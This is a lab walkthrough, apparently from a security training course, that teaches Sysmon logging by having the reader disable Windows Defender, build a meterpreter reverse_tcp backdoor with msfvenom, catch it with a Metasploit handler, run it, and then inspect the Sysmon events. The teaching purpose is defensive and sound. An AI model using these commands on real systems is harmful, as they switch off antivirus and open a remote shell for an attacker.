









# Sysmon

Let’s disable **Defender**. Simply run the following from an **Administrator PowerShell** prompt:


```Set-MpPreference -DisableRealtimeMonitoring $true```

This will disable **Defender** for this session.

If you get angry red errors, that is Ok, it means **Defender** is not running.

Let’s start up the **ADHD Linux system** and set up our **malware** and **C2 listener**: 

Let's get started by opening a **Kali** terminal


Alternatively, you can click on the **Kali** icon in the taskbar.


Once the terminal opens, please run the following command:

```ifconfig```



Please note the IP address of **your** Ethernet adapter.  

**Your IP Address and adapter name may be different.**

Now, run the following commands to start a simple backdoor and backdoor listener: 
 
 ```sudo su -```

```msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe```

Now, let's start the **Metasploit** Handler.  First, open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.


Let's become root.

```sudo su -```

Now let's start the **Metasploit** Handler

```msfconsole -q```

We are going to run the following commands to correctly set the parameters:

```use exploit/multi/handler```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```set LHOST 10.10.1.117```

Remember, **your IP will be different!**

```exploit```

It should look like this:



Now, we will need to open an **cmd.exe terminal as Administrator**.


```cd \IntroLabs```

```Sysmon64.exe -accepteula -i sysmonconfig-export.xml```

It should look like this:



let's run the following commands to run the **"TrustMe.exe"** file.

```cd \```
 
Then run it with the following:

 ```TrustMe.exe```

Back at your Kali terminal, you should have a metasploit session!




Now, we need to view the Sysmon events for this malware:

Open **"Event Viewer"** by pressing the Windows key and searching for it.



You will select Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational



You'll have to scroll down a bit until you find the **Sysmon** folder.  



Start at the top and work down through the logs, you should see your **malware** executing.  Please note your paths may be different.



